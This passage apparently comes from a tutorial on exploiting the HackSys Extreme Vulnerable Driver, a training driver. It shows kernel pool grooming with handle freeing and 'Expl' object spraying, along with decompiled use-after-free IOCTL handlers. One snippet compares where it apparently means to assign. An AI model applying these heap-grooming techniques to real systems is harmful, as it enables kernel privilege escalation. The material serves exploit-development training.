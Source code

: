 Step 6 code could be:
```cpp
...
	for (unsigned int i = 0; i < 5000; i++) {

		if (i % 2 != 0) {
			CloseHandle(Events[i]);
			CtrlEvents[i] == NULL;
		}
	}
...
```

```
Step 7: Allocate the "Expl" objects on the holes
+--------------------------------------------------+
| [OsHp] [OsHp] [Padd] [Padd] [OsHp] [OsHp] [Padd] |
| [OsHp] [Padd] [OsHp] [Padd] [Padd] [Padd] [OsHp] |
| [OsHp] [Padd] [Padd] [Padd] [Padd] [OsHp] [OsHp] |
| [Expl] [UFal] [Expl] [UFal] [Expl] [UFal] [Expl] |
| [UFal] [Expl] [UFal] [Expl] [UFal] [Expl] [UFal] |
| [Expl] [UFal] [Expl] [UFal] [Expl] [UFal] [Expl] |
| [UFal] [Expl] [UFal] [Expl] [UFal] [Expl] [UFal] |
| [Expl] [UFal] [Expl] [UFal] [Expl] [UFal] [Expl] |
| [UFal] [Expl] [UFal] [Expl] [UFal] [Expl] [UFal] |
+--------------------------------------------------+
```

To make **`HEVD_IOCTL_MEMORY_DISCLOSURE_NON_PAGED_POOL_NX`** useful, we need to ensure there's relevant information to leak. This is where **`HEVD_IOCTL_ALLOCATE_UAF_OBJECT_NON_PAGED_POOL_NX`** comes in:
```cpp
...
          case 0x222053u:
            DbgPrintEx(0x4Du, 3u, "****** HEVD_IOCTL_ALLOCATE_UAF_OBJECT_NON_PAGED_POOL_NX ******\n");
            FakeObjectNonPagedPoolNxIoctlHandler = AllocateUaFObjectNonPagedPoolNxIoctlHandler(
                                                     Irp,
                                                     CurrentStackLocation);
            v7 = "****** HEVD_IOCTL_ALLOCATE_UAF_OBJECT_NON_PAGED_POOL_NX ******\n";
            goto LABEL_62;
...
```

The handler **`AllocateUaFObjectNonPagedPoolNxIoctlHandler`**:
```cpp
// attributes: thunk
__int64 __fastcall AllocateUaFObjectNonPagedPoolNxIoctlHandler(_IRP *Irp, _IO_STACK_LOCATION *IrpSp)
{
  return AllocateUaFObjectNonPagedPoolNx();
}
```
